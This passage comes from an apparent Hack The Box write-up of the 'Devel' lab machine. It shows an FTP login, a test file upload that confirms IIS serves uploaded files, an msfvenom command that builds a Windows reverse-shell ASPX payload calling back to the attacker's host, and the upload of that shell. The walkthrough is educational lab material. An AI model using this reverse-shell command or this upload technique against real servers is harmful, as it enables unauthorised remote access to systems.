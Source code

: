 **Note**: The password can be anything.

We're in! At this point I want to try the file upload and check if I'm able to open it on the server side:

{{< highlight html >}}
echo " Simple test to see if IIs7 server will show a custom uploaded file. " > testfile.html
{{< /highlight >}}

**Note**: This command will create a file with the content of the echo output.

Upload the file via FTP and try to access it via web server:

{{< highlight html >}}
tp> put testfile.html
local: testfile.html remote: testfile.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
71 bytes sent in 0.00 secs (1.2776 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
06-29-20  01:40PM                30442 dog.jpg
06-29-20  02:07PM                 2867 ex.aspx
03-17-17  05:37PM                  689 iisstart.htm
06-29-20  09:51PM                   71 testfile.html
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
{{< /highlight >}}

When I visit 10.10.10.5/testfile.html I can see its content:

 ![Devel_ServerTest](/images/htb/devel_servertest.png)

 Now I want to create a **reverse shell** with msfvenom to upload on the web server. I choose a 32bit payload as it works with both 32bit and 64bit OS versions:

{{< highlight html >}}
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4321 -f aspx -o shell.aspx
{{< /highlight >}}

Where:
- `LHOST` and `LPORT` are the ip and port where I will listen on my machine
- `-f` stands for output format
- `-o` stands for output name

And upload it on the web server:

{{< highlight html >}}
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2778 bytes sent in 0.00 secs (47.3091 MB/s)
ftp>
{{< /highlight >}}
